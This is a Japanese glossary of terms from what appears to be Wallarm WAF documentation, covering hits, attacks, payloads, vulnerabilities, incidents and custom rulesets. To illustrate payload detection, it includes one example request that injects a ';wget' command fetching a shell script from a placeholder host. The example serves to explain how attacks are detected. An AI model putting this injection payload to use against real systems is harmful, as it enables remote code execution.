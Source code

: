 # 用語集

この用語集では、プラットフォームをよりよく理解していただくために、Wallarmの中核エンティティを紹介します。

## ヒット

ヒットとは、シリアライズされた悪意のあるリクエスト（元の悪意のあるリクエストと、フィルタリングノードによって追加されたメタデータ）です。例：

![ヒットの例](images/user-guides/events/analyze-attack-raw.png)

[ヒットのパラメータの詳細](user-guides/events/check-attack.md#attack-analysis_1)

## 攻撃

攻撃とは、単一のヒット、または[グループ化](user-guides/events/grouping-sampling.md#grouping-of-hits)された複数のヒットです。

単一のヒットを含む攻撃の例：

![1つのヒットを含む攻撃](images/glossary/attack-with-one-hit-example.png)

多数のヒットを含む攻撃の例：

![複数のヒットを含む攻撃](images/glossary/attack-with-several-hits-example.png)

攻撃の理解と分析方法の[詳細](user-guides/events/check-attack.md)を参照してください。

## 悪意のあるペイロード

以下の要素を含む、元のリクエストの一部です。

* リクエスト内で検出された攻撃の兆候。同一の攻撃タイプを特徴づける複数の兆候がリクエスト内で検出された場合は、最初の兆候のみがペイロードに記録されます。
* 攻撃の兆候のコンテキスト。コンテキストとは、検出された攻撃の兆候の前後にある文字の集合です。ペイロードの長さには制限があるため、攻撃の兆候がペイロード全体にわたる場合はコンテキストが省略されることがあります。

例：

* リクエスト：

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* 悪意のあるペイロード：

    ```bash
    ;wget+http://s
    ```

    このペイロードでは、`;wget+`が[リモートコード実行（RCE）](attacks-vulns-list.md#remote-code-execution-rce)の攻撃の兆候であり、ペイロードの残りの部分はその兆候のコンテキストです。

攻撃の兆候は[行動ベースの攻撃](attacks-vulns-list.md#attack-types)の検出には使用しないため、行動ベースの攻撃の一部として送信されたリクエストはペイロードが空です。

## 脆弱性

脆弱性とは、APIの構築または実装時の不注意や情報不足により生じ、情報セキュリティ上のリスクにつながり得る誤りです。

情報セキュリティ上のリスクには次のものがあります。

* 不正なデータアクセス（例：ユーザーデータの読み取りや変更へのアクセス）です。
* サービス拒否です。
* データ破損などです。

インターネットトラフィックは脆弱性の検出に利用できます。Wallarmは、他の機能とともに、これを実施しています。

## セキュリティインシデント

セキュリティインシデントとは、脆弱性の悪用が発生した事象です。インシデントは、確認済みの脆弱性を標的とする[攻撃](#attack)です。

インシデントは攻撃と同様に、お客様のシステムの外部にある事象であり、システム自体ではなく外部のインターネットの特性です。既存の脆弱性を狙った攻撃は少数派ですが、情報セキュリティの観点では極めて重要です。Wallarmは既存の脆弱性を狙った攻撃を自動検出し、別個のオブジェクト（インシデント）として表示します。

あわせて[インシデントの分析](user-guides/events/check-incident.md)も参照してください。

## 循環バッファ
循環バッファとは、単一の固定サイズのバッファを端と端がつながっているかのように使用するデータ構造です。
[Wikipediaを参照してください](https://en.wikipedia.org/wiki/Circular_buffer)。

## カスタムルールセット（旧称はLOM）

カスタムルールセットは、WallarmノードがWallarm Cloudからダウンロードするコンパイル済みのセキュリティルールの集合です。

カスタムルールにより、トラフィック処理のための個別ルールを設定できます。例：

* Wallarm Cloudにアップロードする前に機密データをマスクします
* 正規表現ベースの攻撃インジケーターを作成します
* アクティブな脆弱性を悪用するリクエストをブロックする仮想パッチを適用します
* 特定のリクエストで攻撃検出を無効化します、など。

カスタムルールセットは既定で空ではありません。Wallarm Cloudに登録されているすべてのクライアント向けに作成されたルールが含まれます。例えば、[**Settings → General**タブ](admin-en/configure-wallarm-mode.md#general-filtration-mode)の値を用いたフィルタリングモードルールが含まれます。

[カスタムルールセットの詳細](user-guides/rules/rules.md)

## 無効なリクエスト
フィルタリングノードで検査され、LOMルールに一致しないリクエストです。

## リバースプロキシ
リバースプロキシは、クライアントに代わってサーバからリソースを取得し、それらがWebサーバ自身から提供されたかのようにクライアントに返す種類のプロキシサーバです。
[Wikipediaを参照してください](https://en.wikipedia.org/wiki/Reverse_proxy)。

## 認証局
認証局は、デジタル証明書を発行する機関です。
[Wikipediaを参照してください](https://en.wikipedia.org/wiki/Certificate_authority)。